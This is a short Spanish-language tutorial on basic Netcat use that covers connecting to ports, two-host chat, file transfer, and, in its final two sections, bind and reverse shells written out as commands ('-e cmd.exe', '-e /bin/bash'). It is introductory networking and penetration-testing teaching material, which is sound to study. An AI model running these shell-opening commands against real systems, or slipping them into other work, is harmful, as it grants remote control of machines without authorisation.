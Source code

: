 ```yaml
---
Title: Uso básico de Netcat
Authors: helmcode
Date: 21/11/2020
Categories: linux
File: basic_netcat
Description: Netcat es una herramienta de análisis de red que permite abrir puertos, transferir archivos, chatear, obtener una shell de un host remoto y muchas cosas mas.
Published: Yes
---
```


# Uso básico de Netcat
Netcat es una herramienta de análisis de red que permite abrir puertos, transferir archivos, chatear, obtener una shell de un host remoto y muchas cosas mas.

**Después de esta rápida intro. Empecemos con el código!**

![programmer_gif](https://media.giphy.com/media/13HgwGsXF0aiGY/giphy.gif)

---
**🔹 Para conectarnos a un puerto de un host.**

- Ejemplo: Vamos a conectarnos al puerto 21 (FTP) de un host con IP: 192.168.0.100

```bash
nc -nv 192.168.0.100 21
```

---
**🔹 Para chatear desde dos hosts distintos a través de un puerto.**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts:

  - host1: 192.168.0.100

  - host2: 192.168.0.101

En **host1** ejecutamos:

```bash
nc -nvlp 4444
```

En **host2** ejecutamos:

```bash
nc -nv 192.168.0.100 4444
```

Desde este momento ambos equipos estarán conectados al puerto 4444 y todo lo que se escriba en uno será transmitido al otro.
La comunicación es bidireccional.

Para cortar la conexión. Basta con pulsar CTRL + C

---
**🔹 Para transferir archivos entre dos hosts a traves de un puerto.**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts:

  - host1: 192.168.0.100

  - host2: 192.168.0.101

Desde **host1** vamos a recibir un fichero. A través del puerto 4444. Para ello ejecutamos:

```bash
nc -nvlp 4444 > archivo_recibido.txt
```

En **host2** vamos a enviar el fichero por medio del mismo puerto. Para ello ejecutamos:

```bash
nc -nv 192.168.0.100 4444 < archivo_enviado.txt
```
---
**🔹 Bind Shell: conectarnos a la shell de un servidor por medio de un puerto**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts:

  - host1: 192.168.0.100  ->  En este caso usaremos un Windows.

  - host2: 192.168.0.101  ->  En este caso será un Linux.

Desde **host1** vamos a servir la shell. A través del puerto 4444. Para ello ejecutamos:

```bash
nc -nvlp 4444 -e cmd.exe
```

En **host2** vamos a conectarnos al puerto indicado para tomar el control de la shell. Para ello ejecutamos:

```bash
nc -nv 192.168.0.100 4444
```

En cuanto se ejecute lo anterior. Tendremos el control de la shell de **host1** (Windows). Desde **host2** (Linux).

---
**🔹 Reverse Shell: servir la shell de un servidor por medio de un puerto.**

- Ejemplo: Para este ejemplo vamos a utilizar el puerto 4444 y dos hosts Linux:

  - host1: 192.168.0.100

  - host2: 192.168.0.101

Desde **host1** vamos a levantar el puerto 4444 para que este escuchando. Para ello ejecutamos:

```bash
nc -nvlp 4444
```

En **host2** vamos a servir una shell a través del puerto indicado. Para ello ejecutamos:

```bash
nc -nv 192.168.0.100 4444 -e /bin/bash
```

En cuanto se ejecute lo anterior. Desde **host1** podremos tener el control de la shell ofrecida por **host2**. 
